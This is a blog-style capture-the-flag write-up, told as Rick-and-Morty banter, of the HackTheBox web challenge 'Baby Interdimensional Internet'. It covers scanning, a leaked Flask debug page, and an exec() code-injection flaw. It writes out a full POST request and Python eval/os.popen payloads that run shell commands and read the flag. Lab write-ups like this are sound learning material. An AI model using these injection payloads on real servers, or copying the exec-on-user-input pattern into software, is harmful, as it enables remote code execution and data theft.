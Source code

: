 ```yaml
---
title: HTB - Baby Interdimensional Internet
tags: [Hacking, HTB, Security, Web, Python, Medium-ish, Retired]
style:
color:
description: Here is my write up for the challenge Baby Interdimensional Internet via HTB.
---
```


Geez Rick, this challenge kinda pissed me off.

Yea Morty, I feel you. It was like right there, right there in front our faces Morty. In front of our damn faces!!

## 1. Enumeration

Alright, first things first, lets kick off some scans while we browse the web page.

`nikto -h http://142.93.45.112:32113`

`dirb http://142.93.45.112:32113 -r`

While those were running, I went ahead and started browsing the page.

![landing page](../images/bii_main.png "landing page")

At first it appeared as though there was nothing too special about the site. After refreshing it, I noticed the number changed under the picture of the two interdimensional travelers.

![landing page new](../images/bii_main2.png "landing page new")

So this lets me know the page is not necessarily static, but is being dynamically generated somehow. Also, my scans were taking forever and nothing was really returning, so I stopped those.

Lets turn to our trusty developer tools via Firefox and see if we can get anything new from there.

Well why dont ya look at that, looks like we might have something at `/debug`

![possible lead](../images/bii_debug.png "possible lead")

Also noticed the response from the server...

![maybe flask](../images/bii_flask.png "maybe flask")

So it looks like we have some Flask involved, and after navigating to `http://142.93.45.112:32113/debug/`, Flask is confirmed. With the confirmation of Flask runnin, it  just lets us know its a Python based web server.

![debug](../images/bii_debug2.png "debug")

## 2. Exploiting Python Exec

First thing that stands out after reviewing the debug page is in the function `calc`. But we cant get ahead of ourselves so we keep looking at the code.

```
def calc(recipe):
  global garage
  garage = {}
  try: exec(recipe, garage)
  except: pass
```

Further investigation of the code reveals that the number seen on the landing page is randomly generated on the first two lines within the `federation` function. A line down, we see a condition involving a `POST` request.

```
if request.method == 'POST':
            ingredient = request.form.get('ingredient', '')
            recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

It appears if we submit a `POST` request and supply values to both the `ingredient` and `measurements` parameters, we can control the number that appears on the main page. After intercepting and modifying the request via Burp, we have successfully taken control of the number.

```
POST / HTTP/1.1
Host: 142.93.45.112:32113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.45.112:32113/
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: close
Upgrade-Insecure-Requests: 1

ingredient=plumbus&measurements=137
```

![im the captain now](../images/bii_igotit.png "im the captain now")

Now its time to see if we can get some code execution on the box. Lets change the `measurements` variable since, it appears to be the varible thats getting supplied to the webpage.

```
ingredient=plumbus&measurements=eval('__import__(\'os\').popen(\'ls\').read()')
```

Before we go forward, lets talk about why I supplied the value I did. So first, I tried supplying commands straight into the `measurements` parameter but I kept getting a blank page back. Sooooo, after some digging, I found that while the `exec()` might be able to execute code, it doesnt return the result , unless specified, like `eval()` does. Heres some links talkin about it:

-[Kinda Explanin](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
-[Kinda Deep Explanation](https://www.code-learner.com/what-is-the-differences-between-python-eval-and-exec-function/)

Back to this walkthrough, we have remote code execution Morty.
![rce](../bii_rce.png "rce baby")

Now lets switch up the command. Gonna just read the flag since it returned in the last POST request.
```
ingredient=whoami&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```
![the flag](../bii_flag.png "flag")

## 5. Conclusion
